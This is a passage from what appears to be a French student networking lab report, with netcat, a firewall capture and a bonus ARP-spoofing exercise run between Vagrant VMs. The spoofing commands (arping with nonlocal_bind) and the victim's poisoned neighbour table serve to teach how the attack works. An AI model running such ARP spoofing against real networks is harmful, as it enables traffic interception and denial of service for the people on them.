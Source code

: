 * sur `client2`
```
[vagrant@client2 ~]$ nc client1.tp1.b2 8888
hi
hello
^C
```

---

#### Firewall

* capture [`firewall.pcap`](./captures/firewall.pcap)

---

## 3. Bonus : ARP spoofing

* `client2` (victime)
```
[vagrant@client2 ~]$ sudo ip n flush all

[vagrant@client2 ~]$ ip n s
10.0.2.2 dev eth0 lladdr 52:54:00:12:35:02 REACHABLE

[vagrant@client2 ~]$ ping 10.1.1.1
64 bytes from 10.1.1.1: icmp_seq=1 ttl=64 time=0.225 ms
64 bytes from 10.1.1.1: icmp_seq=2 ttl=64 time=0.432 ms
2 packets transmitted, 2 received, 0% packet loss, time 1001ms

[vagrant@client2 ~]$ ip n s
10.1.1.1 dev eth1 lladdr 0a:00:27:00:00:01 REACHABLE
10.0.2.2 dev eth0 lladdr 52:54:00:12:35:02 REACHABLE

# ARP spoof on client 1

[vagrant@client2 ~]$ ip n s
10.1.1.1 dev eth1 lladdr 08:00:27:49:df:6e STALE
10.0.2.2 dev eth0 lladdr 52:54:00:12:35:02 REACHABLE

[vagrant@client2 ~]$ ping 10.1.1.1
PING 10.1.1.1 (10.1.1.1) 56(84) bytes of data.
^C
5 packets transmitted, 0 received, 100% packet loss, time 4000ms

```

* `client1` (attacker)
```
# Premier shell
sudo sysctl net.ipv4.ip_nonlocal_bind=1
arping -c 4 -A -I eth1 10.1.1.1

# Deuxième shell
sudo tcpdump -i eth1 -w arp-spoof.pcap
tcpdump: listening on eth1, link-type EN10MB (Ethernet), capture size 262144 bytes
^C8 packets captured
8 packets received by filter
0 packets dropped by kernel
```
